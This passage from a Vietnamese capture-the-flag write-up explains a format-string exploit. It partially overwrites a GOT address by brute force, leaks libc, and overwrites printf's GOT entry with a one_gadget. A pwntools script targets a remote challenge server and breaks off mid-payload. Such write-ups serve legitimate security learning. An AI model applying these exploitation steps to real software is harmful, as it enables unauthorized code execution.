 lúc này thì ta phải tìm kiếm 1 địa chỉ nào đó gần giống với địa chỉ ```got``` ta cần ghi 

![image](https://hackmd.io/_uploads/S1mLAPzPye.png)

### EXPLOIT

- 1 điều quan trọng nữa là ở đây ta có thể input tận 0x100 byte và lần ghi đè của ta sẽ thực hiện trước khi ```__stack_chk_fail@GLIBC_2.4``` được gọi nên ta có thể ghi đè ```lsb``` của 1 địa chỉ nào đó khiến cho việc brute_force trở nên ít nhất có thể , và hợp lý nhất có lẽ là ```0x555555555275``` , địa chỉ got là ```0x555555558018``` , vậy ta sẽ overwrite 2 byte cuối 

![image](https://hackmd.io/_uploads/Sy9CRvMvyx.png)

và mỗi lần chạy thì thằng địa chỉ này chỉ random nửa byte -> 4 bit và tỉ lệ sẽ là 2^4 = 1/16

![image](https://hackmd.io/_uploads/SJLskOGDJe.png)


![image](https://hackmd.io/_uploads/BJy3y_zPkg.png)

okay phần khó nhất là ở bước này , các bước còn lại thì ta chỉ cần leak libc và ta có thể lựa chọn overwrite GOT hoặc ret2libc tùy thích

ở đây mình sử dụng one_gadget để overwrite `GOT` của `printf`
script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = remote('34.29.214.123', 5000)
#gdb.attach(p,gdbscript='''
#           brva 0x0000000000001221
#           ''')
input()

payload = b'%21065c%9$hn'
payload = payload.ljust(17,b'a')

p.send(payload+ p16(0x8018))
p.send(b'|%25$p|%21$p|')

p.recvuntil(b'|')
main = int(p.recvuntil(b'|')[:-1],16)
exe.address = main - exe.sym.main
libc_leak = int(p.recvuntil(b'|')[:-1],16)
libc.address = libc_leak - 0x2a1ca
system = libc.sym.system

print(hex(main))
print(hex(libc.address))
print(hex(system))

one_gadget = [0x583dc,0x583e3,0xef4ce,0xef52b]

log.info(f'one_gadget1: {hex(libc.address + one_gadget[3])}')
package = {
        libc.address+one_gadget[3] & 0xffff: exe.got.printf,
        libc.address+one_gadget[3] >> 16 & 0xffff: exe.got.printf+2,
```